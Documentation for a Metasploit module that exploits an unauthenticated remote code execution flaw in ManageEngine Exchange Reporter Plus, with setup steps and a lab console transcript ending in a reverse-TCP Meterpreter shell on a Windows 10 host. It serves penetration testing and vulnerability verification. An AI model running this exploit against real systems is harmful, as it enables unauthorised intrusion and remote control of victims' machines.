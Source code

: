 ## Description
This module exploits a remote code execution vulnerability that exists in Exchange Reporter Plus <= 5310, caused by execution of bcp.exe file inside ADSHACluster servlet.
Additional information can be viewed on https://security.szurek.pl/manage-engine-exchange-reporter-plus-unauthenticated-rce.html

## Vulnerable Application 
[Exchange Reporter Plus 5216](https://mega.nz/#!XG5CTC5I!IuG91CbrcdcpQj4teYRiBWNwy9pULRkV69U3DQ6nCyU)

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/windows/http/manageengine_adshacluster_rce`
 4. Do: `set rhost <ip>`
 5. Do: `check`
```
[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
```
 6. Do: `set lport <port>`
 7. Do: `set lhost <ip>`
 8. Do: `exploit`
 9. You should get a shell.


## Scenarios

### Exchange Reporter Plus 5216 on Windows Target
```                                                                                                                                    
msf > use exploit/windows/http/manageengine_adshacluster_rce
msf exploit(windows/http/manageengine_adshacluster_rce) > set rhost 192.168.88.125
rhost => 192.168.88.125
msf exploit(windows/http/manageengine_adshacluster_rce) > check

[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
msf exploit(windows/http/manageengine_adshacluster_rce) > set lport 1111
lport => 1111
msf exploit(windows/http/manageengine_adshacluster_rce) > set lhost 192.168.88.120
lhost => 192.168.88.120
msf exploit(windows/http/manageengine_adshacluster_rce) > exploit

[*] Started reverse TCP handler on 192.168.88.120:1111
[*] Sending stage (179779 bytes) to 192.168.88.125
[*] Meterpreter session 2 opened (192.168.88.120:1111 -> 192.168.88.125:49955) at 2018-07-02 18:58:01 +0200

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : pl_PL
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```